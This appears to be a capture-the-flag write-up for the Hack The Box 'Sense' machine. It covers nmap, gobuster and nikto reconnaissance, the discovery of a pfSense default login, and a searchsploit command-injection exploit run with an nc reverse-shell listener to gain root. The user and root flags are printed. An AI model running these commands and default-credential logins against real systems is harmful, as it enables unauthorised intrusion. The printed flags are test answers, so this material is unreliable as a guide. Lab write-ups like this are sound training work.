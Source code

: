 ### IP
`10.10.10.60`

# Recon

### nmap
`nmap -sC -sV 10.10.10.60 -oN Sense.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-25 05:13 EST
Nmap scan report for 10.10.10.60
Host is up (0.12s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.18 seconds
```
* Looks like we have port 443, which when logging into the website, verifies that we get redirected to https

### inspect element
* Looking at the source code of the site, we can see `pfsense` in many of the directories listed
	* Makes sense considering this box is called "Sense"

### gobuster
`gobuster dir -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh -k -o gobusterScan.txt`
* I didn't scan for php extensions because gobuster looked like it was giving a 200 for all of them
* The `-k` is to ignore ssl verification (since we're going through https)
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/11/25 19:38:38 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2020/11/25 20:28:11 Finished
===============================================================
```








* `/changelog.txt` tells us that there is one vulnerability that hasn't been patched as a result of a failed update
* `/system-users.txt` tells us there should be a username `rohit` with the default company password
	* [This](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html#:~:text=The%20default%20credentials%20for%20a,Password%3A%20pfsense) shows us that the default password is `pfsense`

* Logging in confirms that this is pfsense version 2.1.3

### nikto
`nikto -host 10.10.10.60`
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.60
+ Target Hostname:    10.10.10.60
+ Target Port:        80
+ Start Time:         2020-11-25 17:57:32 (GMT-5)
---------------------------------------------------------------------------
+ Server: lighttpd/1.4.35
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: https://10.10.10.60/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Cookie PHPSESSID created without the httponly flag
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ 7863 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2020-11-25 18:13:42 (GMT-5) (970 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
* Looks we're running on lighttpd version 1.4.35
	* According to [this](https://www.cybersecurity-help.cz/vdb/SB2018110801), that means we can get directory traversal

# Exploitation

### reverse shell

* Using searchsploit, I found an exploit that seemed to work well labeled "pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py"
* Downloading it, I can first set up a listener on my system with `nc -lvnp 1337`
* Then I can run the exploit with `python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 1337 --username rohit --password pfsense`
	* It works! (and we get root access immediately)

* If we `cd /home/rohit/` we can `cat user.txt` to get the user flag: `8721327cc232073b40d27d9c17e7348b`
* If we `cd /root/` we can `cat root.txt` to get the root flag: `d08c32a5d4f8c8b10e76eb51a69f1a86`

